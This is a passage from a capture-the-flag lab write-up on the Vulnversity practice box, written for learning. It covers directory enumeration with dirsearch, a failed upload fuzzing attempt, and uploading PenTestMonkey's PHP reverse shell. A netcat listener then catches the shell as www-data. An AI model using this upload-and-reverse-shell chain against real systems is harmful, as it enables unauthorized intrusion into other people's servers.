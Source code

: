 And found an *internal* folder. 

![Dirsearch Results](Images/04-dirsearch.png)

Further enum on that folder:

> dirsearch -u http://$IP:3333/internal/ -e *

gave up an *uploads* folder.

![Dirsearch Results](Images/05-dirsearch.png)


---
## BurpSuite
Lets try and fuzz the uploader: 

Hmmmm...something not working...


---
## Reverse Shell
Using *PenTestMonkey*'s **php-reverse-shell.php**, on the upload page, I get a reverse shell:

```
                                                                                                                                                                
┌──(kali㉿kali)-[~/THM/Vulnversity]
└─$ nc -lnvp 4444          
listening on [any] 4444 ...
connect to [10.9.1.154] from (UNKNOWN) [10.10.145.63] 35256
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 11:04:11 up 45 min,  0 users,  load average: 0.02, 0.03, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
```
